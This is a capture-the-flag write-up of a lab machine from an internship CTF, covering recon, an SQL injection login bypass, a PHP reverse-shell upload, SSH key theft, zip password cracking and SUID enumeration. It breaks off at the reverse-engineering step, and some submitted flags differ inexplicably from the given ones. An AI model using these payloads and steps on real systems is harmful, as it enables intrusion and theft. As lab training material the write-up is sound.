# Indian Army Internship 2025

# Capture The Flag (CTF) Round 1 — Detailed Writeup

> This writeup documents the complete exploitation path of the vulnerable Ubuntu 22.04 LTS machine provided during the Indian Army Internship 2025 Capture The Flag (CTF) Round 1.
>
> The challenge followed a realistic penetration testing methodology:
>
> Reconnaissance → Enumeration → Web Exploitation → Initial Access → Privilege Escalation → Root Access
>
> Techniques Used:
>
> * Network Discovery
> * Service Enumeration
> * Directory Fuzzing
> * SQL Injection
> * File Upload Vulnerability
> * Remote Code Execution (RCE)
> * SSH Key Abuse
> * Password Cracking
> * SUID Enumeration
> * Reverse Engineering
> * XOR Decoding
> * Privilege Escalation

---

# Table of Contents

1. [Finding Target IP Address](#1-finding-target-ip-address)
2. [Service Enumeration](#2-service-enumeration)
3. [Web Information Gathering](#3-web-information-gathering)
4. [Directory Enumeration](#4-directory-enumeration)
5. [SQL Injection Authentication Bypass](#5-sql-injection-authentication-bypass)
6. [File Upload RCE](#6-file-upload-rce)
7. [Initial Access](#7-initial-access)
8. [Privilege Escalation (www-data → john)](#8-privilege-escalation-www-data--john)
9. [Privilege Escalation (john → admin)](#9-privilege-escalation-john--admin)
10. [Privilege Escalation (admin → root)](#10-privilege-escalation-admin--root)
11. [Submitted Flags](#11-submitted-flags)
12. [Key Learning Points](#12-key-learning-points)
13. [Attack Path Summary](#attack-path-summary)

---

# Challenge Overview

Target Operating System:

```text
Ubuntu 22.04 LTS Server
```

Rules:

```text
1. Do not use PowerISO or ISO forensic tools.
2. Do not solve through secure boot login.
3. Follow a proper VAPT methodology.
```

---

# 1. Finding Target IP Address

After starting the virtual machine, the first task was identifying the target IP address inside the local network.

Command:

```bash
sudo netdiscover
```

### Screenshot

<p align="center">

</p>


Discovered Target:

```text
192.168.0.106
```

The target machine was successfully identified and became the primary attack target.

---

# 2. Service Enumeration

A full TCP port scan was performed using Nmap.

Command:

```bash
nmap -sT -A -vv -p- 192.168.0.106
```

### Explanation

```text
-sT  -> TCP Connect Scan
-A   -> Aggressive Enumeration
-vv  -> Verbose Output
-p-  -> Scan All Ports
```

### Screenshot

<p align="center">

</p>

### Results

```text
22/tcp open ssh
80/tcp open http
```

Detected Services:

```text
Apache httpd 2.4.52
OpenSSH 8.9p1
Ubuntu Linux
```

Attack Surface:

```text
HTTP
SSH
```

---

# 3. Web Information Gathering

Technology fingerprinting was performed using Wappalyzer.

### Screenshot

<p align="center">

</p>

### Findings

Backend Language:

```text
PHP
```

Web Server:

```text
Apache
```

This confirmed that the application was dynamically generated using PHP.

---

# 4. Directory Enumeration

Directory fuzzing was performed using FFUF.

Command:

```bash
ffuf -w directory-list-2.3-small.txt:FUZZ \
-u http://192.168.0.106/FUZZ \
-fc 200,300
```

### Screenshot

<p align="center">

</p>

### Discovered Endpoints

```text
/admin/
/assets/
```

The `/assets/` endpoint only contained static resources.

However, the `/admin/` endpoint exposed an administrative login panel.

### Screenshots

<p align="center">

</p>

<p align="center">

</p>

---

# 5. SQL Injection Authentication Bypass

The login form was vulnerable to SQL Injection.

Payload Used:

```sql
'or 1=1 --
```

The payload was supplied in both:

```text
Username Field
Password Field
```

### Screenshot

<p align="center">

</p>

Authentication was bypassed successfully, resulting in administrative access.

---

## Flag 1

Given Flag:

```text
W3b_@dm|n_1o9in_Succe$$
```

Submitted Flag:

```text
ITCTF{W3b_@dm|n_1o9in_Succe31886}
```

---

# 6. File Upload RCE

After successful authentication, the Profile Settings page allowed profile image uploads.

### Screenshot

<p align="center">

</p>

No server-side file validation was implemented.

A PHP reverse shell was uploaded:

```text
exploit.php
```

Source:

```text
PentestMonkey PHP Reverse Shell
```

### Screenshot

<p align="center">

</p>

The upload succeeded successfully.

---

## Locating Uploaded Files

A second FFUF scan was performed against the admin panel.

Command:

```bash
ffuf -w directory-list-2.3-small.txt:FUZZ \
-u http://192.168.0.106/admin/FUZZ \
-fc 200,300
```

### Screenshot

<p align="center">

</p>

Discovered Endpoint:

```text
/admin/uploads/
```

The uploaded payload was stored inside this directory.

---

# 7. Initial Access

The uploaded PHP reverse shell was triggered.

```text
http://192.168.0.106/admin/uploads/exploit.php
```

A reverse shell was obtained.

### Screenshot

<p align="center">

</p>

To obtain a fully interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Current User:

```text
www-data
```

---

# Internal Enumeration

Information gathering was performed using LinPEAS.

Tool:

```text
linpeas.sh
```

### Screenshot

<p align="center">

</p>

Interesting Finding:

```text
/mnt/host/john_private_key
```

The file had readable permissions.

---

# 8. Privilege Escalation (www-data → john)

A private SSH key belonging to John was discovered.

### Screenshot

<p align="center">

</p>

To transfer the key to the attacking machine, a temporary HTTP server was created.

Command:

```bash
python3 -m http.server
```

Download:

```bash
wget http://192.168.0.106:8000/john_private_key
```

Fix permissions:

```bash
chmod 600 john_private_key
```

SSH Login:

```bash
ssh john@192.168.0.106 -i john_private_key
```

### Screenshot

<p align="center">

</p>

Successfully authenticated as:

```text
john
```

---

## Flag 2

Given Flag:

```text
jo#n_u$er_@ccess_Done!
```

Submitted Flag:

```text
ITCTF{jo#n_u$er_@ccess_Done!}
```

---

# 9. Privilege Escalation (john → admin)

During previous enumeration, an interesting backup directory was identified.

Directory:

```text
/backups
```

### Screenshot

<p align="center">

</p>

Inside:

```text
backup.zip
```

### Screenshot

<p align="center">

</p>

The ZIP archive was password protected.

---

## Cracking the ZIP Password

Hash Extraction:

```bash
zip2john backup.zip > hash
```

Password Cracking:

```bash
john --wordlist=rockyou.txt hash
```

View Cracked Password:

```bash
john --show hash
```

### Screenshot

<p align="center">

</p>

Recovered Password:

```text
secret123
```

Extracting the archive revealed:

```text
admin_password.txt
```

Recovered Credentials:

```text
admin : QuvXmdLZx
```

### Screenshot

<p align="center">

</p>

---

## Login as Admin

Command:

```bash
su admin
```

Password:

```text
QuvXmdLZx
```

### Screenshot

<p align="center">

</p>

Successfully authenticated as:

```text
admin
```

---

## Flag 3

Given Flag:

```text
$strin9_4dm1n_p0w3r_unl0ck3d
```

Submitted Flag:

```text
ITCTF{$trin9_4dm1n_p0w3r_unl0ck3d}
```

---

# 10. Privilege Escalation (admin → root)

SUID binaries were enumerated.

Command:

```bash
find / -type f -perm -4000 2>/dev/null
```

### Screenshot

<p align="center">

</p>

Interesting Binary:

```text
/usr/local/bin/hydra_key
```

Permissions:

```text
-rwsr-x---
root admin
```

Only members of the admin group could execute it.

---

# Reverse Engineering hydra_key

Initial Analysis:

```bash
strings /usr/local/bin/hydra_key
```

### Screenshot

<p align="center">

</p>

Observation:

```text
Program asks for a password.
Correct password returns a root shell.
```

Static analysis was performed using IDA.

### Screenshot

<p align="center">
